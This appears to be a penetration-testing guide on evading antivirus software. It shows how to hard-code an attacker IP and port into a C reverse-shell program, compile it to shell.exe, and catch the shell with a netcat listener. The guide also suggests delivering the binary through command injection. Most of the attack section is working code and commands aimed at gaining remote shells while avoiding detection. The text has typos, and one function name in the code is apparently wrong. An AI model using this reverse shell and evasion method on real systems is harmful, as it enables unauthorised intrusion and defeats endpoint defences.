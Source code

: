# Antivirus Evasion Techniques
Eventually most penetration testers will have to deal with antivirus software which likes to rui8n our progress. This document provides several techniques 
## Simple Shell
The [Simple Reverse Shell](https://github.com/infoskirmish/Window-Tools/tree/master/Simple%20Reverse%20Shell) project can be updated and compiled to spawn a simple shell on servers which have AV. Usually AV will block anything created by [MSFVenom](https://github.com/rapid7/metasploit-framework/blob/master/msfvenom), but often won't block the Simple Reverse Shell.

Simply update the shell.c code to manually set the Attacker IP address as shown below,
```
32. struct hostent *host;
33. //host = gethostbyname(argv[1]);
34. host = gethostnamebyip("10.10.10.10"); 
35. strcpy(aip_addr, inet_ntoa(*((struct in_addr *)host->h_addr)));
36. 
37. hax.sin_family = AF_INET;
38. //hax.sin_port = htons(atoi(argv[2])); 
39. hax.sin_port = htons(666); 
40. hax.sin_addr.s_addr =inet_addr(aip_addr);
```
As you can see, I simply update the code to have a static, hard-coded, IP address of my attacker machine, 10.10.10.10, and a port number of 666. I do this to make life easier when I transport the file via infiltration and execute it from command injection vulnerabilities. I left the original lines commented out to see the difference. This code does not contain any payload which has a signature known by an AV client. It will however be noticed by advanced endpoint protection, as it is new behavior to send a shell to another machine.

Compile this code with the compile.ssh script providfed by the Simple Reverse Shell package like so,
```
root@attacker-machine:~# ./compile.sh shell
```
This will create `shell.exe` that we can no transplant to the target system and execute. Before doing so, use Netcat to start alisterner on our Attacker machine,
```
root@attacker-machine:~# nc -lvvnp 666
```
